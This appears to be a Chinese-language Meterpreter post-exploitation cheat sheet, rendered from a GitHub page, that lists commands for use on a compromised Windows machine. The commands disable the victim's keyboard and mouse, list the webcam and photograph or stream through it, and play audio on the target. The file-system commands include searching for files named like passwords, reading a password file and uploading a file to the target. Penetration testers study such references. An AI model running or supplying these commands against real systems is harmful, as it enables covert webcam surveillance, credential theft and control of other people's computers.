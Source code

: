 * # 以下代码谨慎使用 

## uictl开关键盘/鼠标

```
uictl [enable/disable] [keyboard/mouse/all]  #开启或禁止键盘/鼠标
```
```
uictl disable mouse  #禁用鼠标
```
```
uictl disable keyboard  #禁用键盘
```


## webcam摄像头命令

```
webcam_list  #查看摄像头
```
```
webcam_snap   #通过摄像头拍照
```
```
webcam_stream   #通过摄像头开启视频
```
## 在目标系统播放目标文件

```
play /root/1.mp3
```
## 查看 == ls
```
 pwd 
```
## meterpreter load

加载模块

```
load -l             \\查看可以加载的所有模块
```


# 文件系统命令

## 基本文件系统命令

```
getwd 或者pwd # 查看当前工作目录  
```
```
ls
```
```
cd
```
```
search -f *pass*       # 搜索文件  -h查看帮助
```
```
cat c:\\lltest\\lltestpasswd.txt  # 查看文件内容
```
```
upload /tmp/hack.txt C:\\lltest  # 上传文件到目标机上
```
```
```